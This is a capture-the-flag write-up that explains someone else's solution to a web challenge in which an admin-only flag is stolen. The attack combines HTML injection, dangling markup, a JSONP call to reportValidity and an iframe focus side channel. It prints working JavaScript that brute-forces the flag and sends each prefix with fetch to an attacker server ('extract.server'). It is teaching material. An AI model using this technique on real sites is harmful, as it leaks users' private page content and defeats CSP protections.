 This writeup is based on my understanding of [Terjanq solution](https://gist.github.com/terjanq/cd146e97fac07db1c15e6037af7644e0), I didn't solved the challenge in the competition neither after the competition.

Some **Terjanq** words

### Chall:
1. The flag was in the body of the page in form of `<strike>CTF-BR{flag}</strike>` visible only to admin.
2. There was a simple HTML Injection endpoint that happened before the flag.
3. The goal was to retrieve that flag by sending a URL to the page to admin.

### Rules:
1. CSP: `default-src 'none'; script-src 'self'; form-action 'none'; base-uri 'none'; sandbox allow-scripts;`
2. Blocked characters in HTML Injection: `/[:&%#]/`
3. Allowed characters in JSONP: `/^[a-z.]+$/`

___

### The constraints:

There are multiple constraints which make us unable to leak the flag from the admin.

* We can't run injectable javascript using the `name` parameter since CSP will block it.
* We can run some javascript which will be not blocked, using the JSONP callback. But this javascript code is very limited. So we can't do thing like `fetch('my-server.com/?leak=' + flag)`

Here is when `Solution part 0.` comes in. We'll redirect the admin to a page that we own, in that page, we'll have the **Terjanq** solution.

___

### The scenario now has changed. The admin is on a page that we control.

I'll try to explain some technical stuff which are used in the solution.

#### reportValidity
Let's assume we have something like this.
```html
<input id=x value='my-flag' pattern='my-f[^b].*'>
```
The pattern is asking for a prefix `my-f` then any character which is not a `b`, finally, any character. So if we run:
```javascript
ok = document.getElementById('x').reportValidity()
```
The value of *ok* will be `true` since the pattern matches.

Another thing to take in count is, if the pattern doesn't match, the element `x` will gain focus.

#### Dangling markup

[What is dangling markup injection?](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)

With this injection we'll capture the flag inside the value of an input tag.

https://scriptless.world/?name=%3Cinput+value=%27 If we inspect the source code of that page. We'll see that a big part of the HTML content is inside of the value attribute. Note that the flag part is inside it.
___


If we now check the `go` function
``` javascript
async function go(prefix){
    for(let c of alph){
        let r = await test(prefix, c);
        if(r) {
            prefix += c;
            fetch('https://extract.server/x?f='+prefix)
            go(prefix);
            break;
        }
    }
}
```

It will try different patterns for the flag. With each pattern, it will run the `test` function:
```javascript
async function test(prefix, letter){
    return new Promise(r=>{
        let x = document.createElement('iframe');
        document.body.appendChild(x);

        x.focus();
        let win = x.contentWindow;
        let doc = x.contentDocument;
        win.onblur = () => r(1);
        let i = doc.createElement('iframe');
        i.src = URL.replace('PREFIX', prefix).replace('LETTER', letter)
        doc.documentElement.appendChild(i);
        i.onload = () => {
            console.log(/load/);
            r(0);
            x.remove();
        }
    })
}
```
Let see what the `test` functions does:

1. It will create an iframe, lets call it `x`
2. It will give focus to this iframe.
3. It will add a function to the event `onblur` which will end the promise with the value of `1`.
4. It will create a new iframe, let's call it `i`, inside the iframe `x`.
5. It will load the iframe `i` with the `URL` variable.

**Lets stop a moment here**
The URL variable is used for multiple purposes

1. URL will load the scriptless.world page. This page will have the flag in the HTML code.
2. Using the JSONP, URL will make it able to run `x.reportValidity()`. Note here that it'll be call with a string as a parameter, but this doesn't matter.
3. URL will inject a HTML tag. `<input id=x pattern='a pattern here' value='`. Note that the tag isn't close and also the `value` attribute has only one single quote. Here is when [dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) comes into the game.
4. Because of the dangling markup. The value of the input `x` will have a lot of trash, the flag and finally more trash. (That's why URL has a long pattern, it's to match the trash before the flag)

To summarize, URL will:
* Inject an input tag with a pattern and a value. The value contains the flag.
* Inject a script with the JSONP call, which will run reportValidity.

Getting back to the test function, after the step 5, there are two thing that could happen:

* If the current pattern doesn't match. (Note the way the pattern is made), `reportValidity` will return false and iframe `i` will gain focus, so iframe `x` loses focus, which will trigger the `onblur` event returning a `1`.
* If the current pattern does match. It'll be because the current prefix of the flag isn't correct. So the Promise response will be `0`.

Finally everytime the prefix is updated, the `go` function makes a fetch to a server of our property to look into the logs for the flag.


## Some resources that I used to understand the solution
* [JavaScript Promises In 10 Minutes](https://www.youtube.com/watch?v=DHvZLI7Db8E)
* [JavaScript Async Await](https://www.youtube.com/watch?v=V_Kr9OSfDeU)
* [reportValidity](https://googlechrome.github.io/samples/report-validity/)
* [Dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)
